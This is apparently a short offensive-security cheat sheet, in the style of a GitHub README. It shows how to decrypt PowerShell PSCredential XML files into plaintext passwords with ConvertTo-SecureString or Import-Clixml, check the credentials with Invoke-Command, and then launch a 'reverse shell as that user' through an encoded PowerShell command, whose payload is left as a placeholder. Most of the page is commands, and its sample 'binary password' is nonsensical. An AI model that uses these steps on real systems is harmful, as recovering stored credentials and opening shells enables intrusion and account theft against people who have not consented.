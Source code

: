 # Decode the Xml password 
PSCredential XML Decryption is the process of extracting and converting securely stored credentials from serialized PowerShell objects in XML format back to plaintext authentication tokens.
```language
If the file contain the binary password, like this :- 0101919310841001837146106741741069169491893010101100101001010010010110100101016471551646101808181838
```
# You can Decrypt it using the Powershell Manuall and Automate Ways:-

# Manuall Way
Make sure you paste the write Encoded password and username.
```language
$pwd = ConvertTo-SecureString  <encoded password>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "user_name",$pwd    # Grap the username from the xml file.
$cred.GetNetworkCredential().password
```
# Automate Way
```language
(Import-Clixml "C:\Path\To\Your\connection.xml").GetNetworkCredential().Password
```
# Verify it
```language
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami } 2>&1
```
# Reverse shell as that user
```language
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { powershell -enc <encoded code here> } 2>&1
```
